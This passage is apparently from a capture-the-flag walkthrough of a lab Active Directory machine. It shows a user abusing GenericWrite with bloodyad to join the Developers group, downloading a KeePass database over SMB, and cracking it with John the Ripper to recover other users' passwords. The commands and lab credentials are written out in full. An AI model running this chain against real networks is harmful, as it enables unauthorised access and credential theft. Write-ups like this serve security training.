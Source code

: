 Leveraging the `GenericWrite` privilege, `levi.james` adds themselves to the `Developers` group, gaining access to the `DEV` share.

### Add `levi.james` to `Developers` Group

Use `bloodyad` to modify group membership.

```bash
bloodyad add-group-member --group-dn "CN=Developers,CN=Users,DC=puppy,DC=htb" \
--user-dn levi.james -u levi.james -p 'KingOfSpades7!' --host puppy.htb --domain puppy.htb
```

  * `--group-dn`: Distinguished Name of the target group.
  * `--user-dn`: Distinguished Name of the user to add.

### Access `DEV` Share & Retrieve KeyPass Database

Now that `levi.james` is in the `Developers` group, the `DEV` share is accessible.

1.  **Access `DEV` Share:**

    ```bash
    smbclient //10.10.11.70/DEV -U levi.james%'KingOfSpades7!'
    ```

2.  **Download KeyPass Database:**
    Inside `smbclient`:

    ```
    dir
    get recovery.kdbx
    exit
    ```

### Crack KeyPass Database

The `recovery.kdbx` file needs to be cracked to reveal stored credentials.

1.  **Convert KeyPass to John format:**
    The video uses a custom `keypass2john.py` script (potentially an updated version from GitHub) to handle KeyPass v4 databases.

    ```bash
    python3 keypass2john.py recovery.kdbx > puppy.keypass
    ```

2.  **Crack with John the Ripper:**
    Hashcat does not support this specific KeyPass v4 format, so John the Ripper is used.

    ```bash
    /opt/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt puppy.keypass
    ```

    This cracks the KeyPass master password: **`Liverpool`**.

3.  **Open KeyPass Database:** Use the KeyPass GUI to open `recovery.kdbx` with the password `Liverpool`. This reveals credentials for **`ant.edwards`** (password: **`Ant-Man2025`**) and other users.
